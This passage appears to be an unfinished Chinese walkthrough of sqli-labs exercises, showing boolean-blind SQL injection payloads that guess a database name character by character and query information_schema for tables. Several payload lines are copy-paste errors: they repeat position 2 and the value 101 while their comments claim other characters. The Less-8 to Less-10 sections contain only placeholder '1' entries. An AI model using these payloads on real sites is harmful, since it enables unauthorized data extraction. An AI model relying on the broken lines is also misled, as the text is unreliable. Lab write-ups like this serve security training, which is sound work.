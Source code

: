    对照ascii码表，得数据库名首字符为  s ，同理，其他字符求法如下

   ```
   ?id=1')) and ascii(substr(database(),2,1))>=101--+  #未报错--e
   ?id=1')) and ascii(substr(database(),3,1))>=99--+  #未报错--c
   ?id=1')) and ascii(substr(database(),4,1))>=117--+  #未报错--u
   ?id=1')) and ascii(substr(database(),2,1))>=101--+  #未报错--r
   ?id=1')) and ascii(substr(database(),2,1))>=101--+  #未报错--i
   ?id=1')) and ascii(substr(database(),2,1))>=101--+  #未报错--t
   ?id=1')) and ascii(substr(database(),2,1))>=101--+  #未报错--y
   ```

   数据库名：security

4. 判断数据库有哪些表

   ```
   id=1%27))%20and%20ascii(substr((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1),1,1))%3E101%20--+
   ```

   

5. 1

6. 1

# Less-8

1. 1
2. 1
3. 1
4. 1
5. 1
6. 1

# Less-9

1. 1
2. 1
3. 1
4. 1
5. 1
6. 1

# Less-10

1. 1
2. 1
3. 1
4. 1
5. 1
6. 1
